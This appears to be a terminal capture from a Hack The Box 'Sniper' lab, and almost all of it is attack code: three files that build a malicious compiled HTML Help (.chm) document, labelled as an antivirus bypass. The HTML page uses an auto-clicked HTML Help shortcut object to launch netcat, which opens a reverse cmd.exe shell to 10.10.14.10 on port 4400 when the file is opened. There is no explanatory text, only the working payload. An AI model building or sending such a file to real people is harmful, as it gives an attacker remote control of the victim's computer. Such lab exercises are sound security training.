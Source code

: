    root@p3:/opt/htb/machines/sniper# cat expl.htm
    <HTML>
    <HEAD>
    <Title>Bypass AV by PlayerThree</Title>
    </HEAD>
    <BODY>

    <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
      <PARAM name="Command" value="ShortCut">
      <PARAM name="Button" value="Bitmap::shortcut">
      <PARAM name="Item1" value=",cmd.exe,/c c:\docs\nc64.exe 10.10.14.10 4400 -e c:\windows\system32\cmd.exe">
      <PARAM name="Item2" value="273,1,1">
    </OBJECT>
    <SCRIPT>
      x.Click();
    </SCRIPT>

    <h1> Bypass AV by PlayerThree </h1>
    </BODY>
    </HTML>

   root@p3:/opt/htb/machines/sniper# cat expl.hhc
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
    <HTML>
    <HEAD>
    <meta name="GENERATOR" content="Microsoft&reg; HTML Help Workshop 4.1">
    <!-- Sitemap 1.0 -->
    </HEAD><BODY>
    <OBJECT type="text/site properties">
    	<param name="ImageType" value="Folder">
    </OBJECT>
    <UL>
    	<LI> <OBJECT type="text/sitemap">
    		<param name="Name" value="AV Bypass by PlayerThree">
    		<param name="Local" value="expl.htm
    		">
    		</OBJECT>
    </UL>
    </BODY></HTML>

   root@p3:/opt/htb/machines/sniper# cat expl.hhp
    [OPTIONS]
    Compatibility=1.1 or later
    Compiled file=expl.chm
    Contents file=expl.hhc
    Default topic=expl.htm
    Display compile progress=No
    Language=0x409 English (United States)


    [FILES]
    C:\Users\PlayerThree\htb\machines\sniper\expl.htm
